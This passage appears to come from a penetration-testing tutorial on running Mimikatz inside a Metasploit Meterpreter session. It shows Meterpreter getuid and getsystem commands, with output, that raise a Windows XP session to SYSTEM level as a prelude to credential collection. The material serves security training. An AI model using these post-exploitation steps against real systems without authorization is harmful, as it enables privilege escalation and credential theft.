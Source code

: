 ```yaml
---
draft: false
title: MSF Mimikatz
linkTitle: Mimikatz
weight: 300
translationKey: msf-mimikatz
date: 2017-06-16T13:59:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: In this article, we will look at examples of using the Mimikatz application within the Metasploit Framework.
url: /msf-mimikatz/
featured_image: /images/metasploit.jpg
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
---
```

Metasploit Framework provides versatile usage opportunities. For this reason, it is possible to include codes from external sources into the system. In this article, we will look at examples of mimikatz application usage in Metasploit Framework.

## What is Mimikatz?

Mimikatz is essentially a post-exploitation program written by Benjamin Delpy. It is used to collect information from the target computer. Mimikatz has incorporated many different commands required for collecting information.

## Installing Mimikatz

Mimikatz can be run after opening a Meterpreter session on the target system. It runs in memory without the need to load any files into the system. In order for it to work effectively, we need to have session permissions at the SYSTEM level.

```bash
meterpreter > getuid
Server username: WINXP-E95CE571A1\Administrator
```

In this output, it is seen that we are not at the SYSTEM level on the target system. First, let's try to get to the SYSTEM level.

```bash
meterpreter > getsystem
...got system (via technique 1).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

If you were successful, you will get the output as above that you have moved to the SYSTEM level.
